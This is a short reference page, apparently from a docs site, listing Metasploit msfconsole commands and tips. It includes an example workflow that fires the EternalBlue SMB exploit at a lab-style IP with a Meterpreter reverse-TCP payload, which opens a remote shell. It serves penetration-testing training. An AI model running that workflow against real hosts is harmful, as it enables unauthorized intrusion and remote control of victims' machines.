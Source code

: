 ```yaml
---
sidebar_position: 10
---
```


# Metasploit Framework (msfconsole)

Metasploit is a widely used penetration testing framework for developing, testing, and executing exploits. The `msfconsole` is its primary command-line interface.

## Starting Metasploit

```bash
msfconsole
```

## Core Commands

- `help` or `?` : Show help menu
- `search <term>` : Search for modules
- `use <module>` : Select a module
- `set <option> <value>` : Set module options
- `show options` : Show module options
- `run` or `exploit` : Execute the selected module
- `sessions` : List/manage sessions
- `jobs` : List/manage background jobs
- `exit` or `quit` : Exit msfconsole

## Module Commands

- `info` : Show info about a module
- `show <type>` : List modules of a given type (e.g., exploits, payloads)
- `back` : Go back from the current context
- `reload_all` : Reload all modules

## Database Commands

- `db_connect` : Connect to a database
- `db_import <file>` : Import scan results
- `hosts` : List all hosts in the database
- `services` : List all services
- `vulns` : List all vulnerabilities
- `creds` : List all credentials

## Example Workflow

```bash
msfconsole
search exploit/windows/smb/ms17_010_eternalblue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.10
set LHOST 10.10.14.1
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run
```

## Ranges and Lists

- Many commands accept ranges (e.g., `jobs -k 2-6,7,8,11..15`)
- IPs can be specified as lists, ranges, or CIDR (e.g., `set RHOSTS 192.168.1.1-192.168.1.10,192.168.2.0/24`)
- See [Nmap target specification](https://nmap.org/book/man-target-specification.html) for more details

## Tips

- Use `tab` for autocompletion
- Use `banner` for a random Metasploit banner
- Use `sessions -i <id>` to interact with a session
- Use `route` to pivot through sessions

For more details, see the [Metasploit Unleashed Guide](https://www.offensive-security.com/metasploit-unleashed/)

